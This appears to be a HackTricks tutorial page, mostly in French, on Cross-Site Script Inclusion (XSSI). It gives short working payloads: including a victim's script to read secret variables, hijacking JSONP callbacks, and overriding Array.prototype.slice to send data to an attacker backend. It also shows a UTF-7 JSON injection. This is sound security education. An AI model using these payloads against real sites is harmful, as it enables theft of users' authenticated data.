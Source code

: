 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** est une vulnérabilité qui découle de la nature de la balise `script` en HTML. Contrairement à la plupart des ressources, qui sont soumises à la **Same-Origin Policy (SOP)**, les scripts peuvent être inclus depuis différents domaines. Ce comportement est destiné à faciliter l'utilisation de bibliothèques et d'autres ressources hébergées sur différents serveurs, mais introduit également un risque de sécurité potentiel.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Les scripts sont exemptés de la **Same-Origin Policy**, leur permettant d'être inclus à travers des domaines.
- **Data Exposure**: Un attaquant peut exploiter ce comportement pour lire des données chargées via la balise `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** est particulièrement pertinent pour le JavaScript dynamique ou **JSON with Padding (JSONP)**. Ces technologies utilisent souvent des informations "d'autorité ambiante" (comme les cookies) pour l'authentification. Lorsqu'une requête de script est faite à un hôte différent, ces informations d'identification (par exemple, les cookies) sont automatiquement incluses dans la requête.
- **Authentication Token Leakage**: Si un attaquant peut tromper le navigateur d'un utilisateur pour qu'il demande un script depuis un serveur qu'il contrôle, il pourrait être en mesure d'accéder à des informations sensibles contenues dans ces requêtes.

### Types

1. **Static JavaScript** - Cela représente la forme conventionnelle de XSSI.
2. **Static JavaScript with Authentication** - Ce type est distinct car il nécessite une authentification pour y accéder.
3. **Dynamic JavaScript** - Implique du JavaScript qui génère dynamiquement du contenu.
4. **Non-JavaScript** - Fait référence aux vulnérabilités qui n'impliquent pas directement JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
Dans cette approche, des informations privées sont intégrées dans un fichier JavaScript accessible globalement. Les attaquants peuvent identifier ces fichiers en utilisant des méthodes telles que la lecture de fichiers, des recherches par mots-clés ou des expressions régulières. Une fois localisé, le script contenant des informations privées peut être inclus dans un contenu malveillant, permettant un accès non autorisé à des données sensibles. Une technique d'exploitation d'exemple est montrée ci-dessous :
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI et Authenticated-JavaScript-XSSI
Ces types d'attaques XSSI impliquent que des informations confidentielles soient ajoutées dynamiquement au script en réponse à une demande de l'utilisateur. La détection peut être effectuée en envoyant des requêtes avec et sans cookies et en comparant les réponses. Si les informations diffèrent, cela peut indiquer la présence d'informations confidentielles. Ce processus peut être automatisé en utilisant des outils comme l'extension Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Si des données confidentielles sont stockées dans une variable globale, elles peuvent être exploitées en utilisant des méthodes similaires à celles utilisées dans le XSSI régulier. Cependant, si les données confidentielles sont incluses dans une réponse JSONP, les attaquants peuvent détourner la fonction de rappel pour récupérer les informations. Cela peut être fait en manipulant des objets globaux ou en configurant une fonction à exécuter par la réponse JSONP, comme démontré ci-dessous :
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Pour les variables ne résidant pas dans l'espace de noms global, *prototype tampering* peut parfois être exploité. Cette technique tire parti de la conception de JavaScript, où l'interprétation du code implique de parcourir la chaîne de prototypes pour localiser la propriété appelée. En remplaçant certaines fonctions, comme `Array`'s `slice`, les attaquants peuvent accéder et leak des variables non globales :
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Des détails supplémentaires sur les vecteurs d'attaque peuvent être trouvés dans le travail du chercheur en sécurité [Sebastian Lekies](https://twitter.com/slekies), qui maintient une liste de [vecteurs](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La recherche de Takeshi Terada introduit une autre forme de XSSI, où des fichiers Non-Script, tels que CSV, sont divulgués entre origines en étant inclus comme sources dans une balise `script`. Des instances historiques de XSSI, telles que l'attaque de Jeremiah Grossman en 2006 pour lire un carnet d'adresses Google complet et la fuite de données JSON de Joe Walker en 2007, soulignent la gravité de ces menaces. De plus, Gareth Heyes décrit une variante d'attaque impliquant du JSON encodé en UTF-7 pour échapper au format JSON et exécuter des scripts, efficace dans certains navigateurs :
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
